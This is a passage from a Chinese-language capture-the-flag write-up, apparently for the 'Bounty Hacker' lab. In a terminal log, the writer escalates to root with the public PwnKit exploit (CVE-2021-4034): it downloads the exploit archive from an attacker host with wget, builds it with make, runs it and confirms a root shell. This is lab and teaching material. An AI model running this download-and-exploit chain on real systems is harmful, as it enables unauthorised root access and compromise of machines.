 该系统似乎容易受到 *Polkit* 权限提升漏洞([国家漏洞数据库 n.d.](https://nvd.nist.gov/vuln/detail/cve-2021-4034) )的攻击，正如其 CVE id:CVE-2021–4034 所示。我将通过使用 [Berardi et al. (n.d.)](https://github.com/berdav/CVE-2021-4034) 尝试获得系统上的 root 访问权限来进行测试:

```
**lin@bountyhacker:~$ wget http://attacker.thm:8000/CVE-2021-4034/cve-2021-4034 -o ./polkit
lin@bountyhacker:~$ ls**
Desktop  Documents  Downloads  linpeas.sh  Music  Pictures  polkit  Public  Templates  Videos
**lin@bountyhacker:~$ chmod +x polit**
chmod: cannot access 'polit': No such file or directory
**lin@bountyhacker:~$ chmod +x polkit**
**lin@bountyhacker:~$ ./polit**
-bash: ./polit: No such file or directory
**lin@bountyhacker:~$ ./polkit**
./polkit: line 1: [redacted]: command not found
./polkit: line 2: syntax error near unexpected token `('
./polkit: line 2: `Resolving localhost (localhost)... 127.0.0.1'
**lin@bountyhacker:~$ rm polkit**
**lin@bountyhacker:~$ wget http://attacker.thm:8000/CVE-2021-4034-main.zip**
--[redacted]--  http://attacker.thm:8000/CVE-2021-4034-main.zip
Connecting to attacker.thm:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6457 (6.3K) [application/zip]
Saving to: ‘CVE-2021-4034-main.zip’

CVE-2021-4034-main.zip   100%[================>]   6.31K  --.-KB/s in 0.002s  

[redacted] (3.54 MB/s) - ‘CVE-2021-4034-main.zip’ saved [6457/6457]

**lin@bountyhacker:~$ unzip CVE-2021-4034-main.zip**
Archive:  CVE-2021-4034-main.zip
55d60e381ef90463ed35f47af44bf7e2fbc150d4
   creating: CVE-2021-4034-main/
  inflating: CVE-2021-4034-main/.gitignore  
  inflating: CVE-2021-4034-main/LICENSE  
  inflating: CVE-2021-4034-main/Makefile  
  inflating: CVE-2021-4034-main/README.md  
  inflating: CVE-2021-4034-main/cve-2021-4034.c  
  inflating: CVE-2021-4034-main/cve-2021-4034.sh  
   creating: CVE-2021-4034-main/dry-run/
  inflating: CVE-2021-4034-main/dry-run/Makefile  
  inflating: CVE-2021-4034-main/dry-run/dry-run-cve-2021-4034.c  
  inflating: CVE-2021-4034-main/dry-run/pwnkit-dry-run.c  
  inflating: CVE-2021-4034-main/pwnkit.c  
**lin@bountyhacker:~$ ls**
CVE-2021-4034-main  CVE-2021-4034-main.zip  Desktop  Documents  Downloads  linpeas.sh  Music  Pictures  Public  Templates  Videos
**lin@bountyhacker:~$ cd CVE-2021-4034-main
lin@bountyhacker:~/CVE-2021-4034-main$ ls**
cve-2021-4034.c  cve-2021-4034.sh  dry-run  LICENSE  Makefile  pwnkit.c  README.md
**lin@bountyhacker:~/CVE-2021-4034-main$ make**
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /bin/true GCONV_PATH=./pwnkit.so:.
**lin@bountyhacker:~/CVE-2021-4034-main$ ./cve-2021-4034**
**# id**
uid=0(root) gid=0(root) groups=0(root),1001(lin)
**#** 
```
